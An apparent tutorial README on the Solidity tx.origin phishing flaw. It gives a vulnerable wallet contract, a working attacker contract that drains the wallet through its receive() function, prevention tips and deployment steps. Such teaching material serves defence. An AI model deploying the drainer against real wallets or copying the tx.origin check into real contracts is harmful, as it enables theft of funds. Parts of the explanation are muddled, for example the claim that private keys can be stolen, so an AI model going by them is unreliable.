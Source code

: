 # What is Tx Origin Attack?
A "Tx Origin Attack" in the context of blockchain and smart contracts occurs when an attacker deploys a malicious contract disguised as a regular wallet. This malicious contract, when funded by the owner of a vulnerable smart contract, deceives the owner into thinking they are performing actions only the owner should be able to do. The attacker exploits the tx.origin variable, which initially appears to represent the owner's externally owned account (EOA). However, the attacker's contract uses this deceptive information to carry out unauthorized actions, potentially leading to the theft of funds, private keys, or other sensitive data. To prevent such attacks, it is crucial for developers to use msg.sender for access control within smart contracts and for users to exercise caution when interacting with unfamiliar contracts.

```solidity 

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;
// phishing with tx.origin

contract txorigin_wallet{
    address public owner;

    constructor(){
         owner = msg.sender;
    }

    function deposit() public payable{
    }

    function transfer(address payable to, uint amt) public{
         require(tx.origin == owner, "Not the owner");
         (bool sent, ) = to.call{value: amt}("");
        require(sent, "failed to send ether");
    }

    function getBalance() public view returns (uint){
        return address(this).balance;
    }
}


``` 

 


# How does it happen?
A "tx.origin" attack is a security vulnerability in smart contracts on blockchains like Ethereum. It happens when a malicious contract relies on the "tx.origin" variable to identify the original sender of a transaction. An attacker lures a user into interacting with their malicious contract, and if that user interacts with the attacker's contract while originating from a different contract, the attacker's contract can be tricked into thinking the user is someone else, potentially leading to unauthorized actions or loss of funds. To mitigate such attacks, developers are advised to use the more secure msg.sender variable instead of tx.origin when determining the sender of a transaction within their smart contracts, as msg.sender always represents the immediate sender of the transaction and cannot be as easily manipulated or spoofed.

# Example of Tx Origin Attack.
Here is an example code for tx origin attack.

```solidity 

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;
// phishing with tx.origin

interface Itxorigin{
       function transfer(address payable to, uint amt) external;
       function getBalance() external view returns (uint);       
}

contract attacktxorigin{
         address public owner;
         Itxorigin public immutable mytxorigin;

        constructor (address  addr){
            mytxorigin = Itxorigin(addr);
            owner = msg.sender;
         }

        receive() external payable {
                      mytxorigin.transfer(payable(owner), mytxorigin.getBalance());
        }                     
}


``` 



# How to prevent?
- Never use tx.origin to check for authorisation of ownership, instead use msg.sender
- Don’t use address.call.value(amount)(); instead use address.transfer()
address.transfer() will have a gas stipend of 2300 — meaning possible attacking contracts would not have enough gas for further computation other than emitting Events

# How to use our code: 
- First you need to deploy the txorigin_wallet contract. You can perform deposit and balance check operation here.
- Then you deploy the attacktxorigin contact.
- Using owner account you try to transfer an amojnt to another address. That address will be the owner and transfer all the money from smart conrtact to its own account.
